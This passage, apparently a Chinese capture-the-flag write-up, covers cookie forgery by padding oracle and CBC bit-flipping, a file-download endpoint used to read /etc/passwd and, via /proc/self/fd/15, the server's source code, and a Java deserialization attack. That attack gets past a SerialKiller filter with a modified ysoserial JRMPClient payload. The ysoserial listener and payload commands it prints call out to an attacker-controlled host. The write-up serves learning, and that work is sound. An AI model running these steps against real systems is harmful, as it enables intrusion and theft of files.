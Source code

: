 第二关，读文件，看到后端代码后，才发现，这里贼坑。

第三关，反序列化。

首先第一关好说，其实在/api/account_info这个接口，就可以拿到返回的明文信息。然后通过Padding Oracle + cbc翻转来伪造cookie即可。在这里就不多说了。网上很多资料。

最后拿到cookie，直接浏览器写入cookie就OK。然后可以获取到一个下载文件的接口。
> /api/fileDownload?fileName=1.txt

虽然说是一个任意文件读取的接口，但是贼坑、

一顿操作猛如虎，最后只读出/etc/passwd...

搜到了[很多字典](https://github.com/tdifg/payloads/blob/master/lfi.txt)。然后burp爆破一波，最后发现/proc/self/fd/15这里有东西，看到熟悉的pk头，情不自禁的笑了起来。（对，就是源码）

![20190419155560741062781.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014936-54f65eac-6202-1.png)



源码也不多，很容易，可以看到一个反序列化的接口。

![20190418155560268113326.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014936-5527d2de-6202-1.png)

在反序列化之前，还调用了SerialKiller，作为一个waf，对常见payload进行拦截。

首先题目给了hint：JRMP。根据这个hint，我们可以找到很多资料。在这里自己用的ysoserial，根据他的JRMP模块来进行下一步操作。

在这里，JRMP主要起了一个绕过waf的功能，因为这个waf只在反序列化userinfo时进行了调用。当通过JRMP来读取payload进行反序列化时，不会走waf。

首先，JRMP这个payload被waf掉了，我们可以采用先知上的一种绕过方式。

> [https://xz.aliyun.com/t/2479](https://xz.aliyun.com/t/2479)

![20190418155560308363179.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014937-5555b226-6202-1.png)

直接修改ysoserial源码即可，将原有的JRMPClient的payload复制一份，改名为JRMPClient2，然后保存并编译。

此时我们可以尝试使用URLDNS模块，来判断是否攻击成功。

```bash
# 修改替换{{内容}}

# 开启监听端口
# 建议采用ceye的dnslog查看
java -cp ./ysoserial-5am3.jar ysoserial.exploit.JRMPListener {{port}} URLDNS {{http://eval.com}}


# 生成链接JRMPListener的payload
# ip端口那里填写运行第4行脚本的主机地址端口
java -jar ./ysoserial-5am3.jar JRMPClient2 {{10.0.0.1:8119}} | base64

# 此时将第10行生成的代码，直接打到远程即可。
```
然后查看dnslog信息。发现存在，那就是ok了。


接下来可以尝试换payload了。此时这里还存在一个问题。服务器端无法执行命令！！

